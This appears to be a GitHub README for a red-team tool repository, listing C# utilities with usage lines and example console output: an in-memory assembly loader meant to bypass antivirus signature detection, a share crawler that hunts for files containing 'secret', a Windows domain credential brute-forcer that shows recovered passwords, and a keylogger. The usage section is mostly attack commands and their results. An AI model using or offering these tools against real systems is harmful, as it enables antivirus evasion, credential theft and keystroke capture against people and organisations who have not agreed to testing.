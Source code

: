 # RTUtils

Repository of random tool / script used during RT / PT

## AssemblyLoader

C# .NET Program to serialize a .NET program into a base64 string encrypted that then will be loaded in memory, allowing to specify arguments, in order to bypass the signature-based detection of AVs

### Example

```
C:\>.\Serializer.exe SharpUp.exe
Copy the content of serialised.txt into the variable "assembly" of Loader
C:\>.\Loader.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running all checks anyway.
```

### Example

## SharpFind

C# .NET for finding file name and keyword

### Usage

```
C:\>.\SharpFind.exe
For searching by name: SharpFind.exe name {directory} {name} {extension} [outputFile]
For searching by keyword: SharpFind.exe keyword {directory} {keyword} {extension} [outputFile]

- directory: C:\path\to\directory\ or \\path\to\directory\ or LocalShares (to search into all local network computers [net view]) or LogicalDisk (to search into all logical disks)
- name and keyword: case insensitive
- extension: *.* or *.txt
```
### Example
```
C:\>.\SharpFind.exe keyword LocalShares secret *.*
[*] Getting Shares...
\\EVILCORPVM01\ADMIN$
\\EVILCORPVM01\C$
\\EVILCORPVM01\IPC$
\\EVILDC\NETLOGON
\\EVILDC\SYSVOL
\\EVILDC\Users
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.doc
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.docx
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.pdf
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.xls
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.xlsx

C:\ >.\SharpFind.exe name LocalShares findme *.*
[*] Getting Shares...
\\EVILCORPVM01\ADMIN$
\\EVILCORPVM01\C$
\\EVILCORPVM01\IPC$
\\EVILDC\NETLOGON
\\EVILDC\SYSVOL
\\EVILDC\Users
[+] \\EVILDC\Users\elliot\Desktop\shared\AnotherDir\findme.txt
```
## SharpWinLogin

C# .NET for brute-forcing Windows Domain Credential 

### Usage

```
C:\>.\SharpWinLogin.exe
SharpWinLogin.exe {usernameList} {passwordList} {lockoutThreshold} [outputFile]
For searching by keyword: SharpFind.exe keyword {directory} {keyword} {extension} [outputFile]

- usernameList: C:\\path\\to\\usernameList.txt or "username1,username2" or auto (to retrieve the username list from Domain Controller)
- passwordList: C:\\path\\to\\passwordList.txt or "password1,password2"
- lockoutThreshold: n or 0 (for no lockout threshold)
```
### Example
```
C:\>.\SharpWinLogin.exe “locked,angela” “locked,angela1990,test” 0
User locked is disabled
[+] Found credentials angela:angela1990

C:\ >.\SharpWinLogin.exe auto “angela1234,test” 0
User locked is disabled
[+] Found credentials angela:angela1234
```

## Trakker

C# .NET simple Keylogger
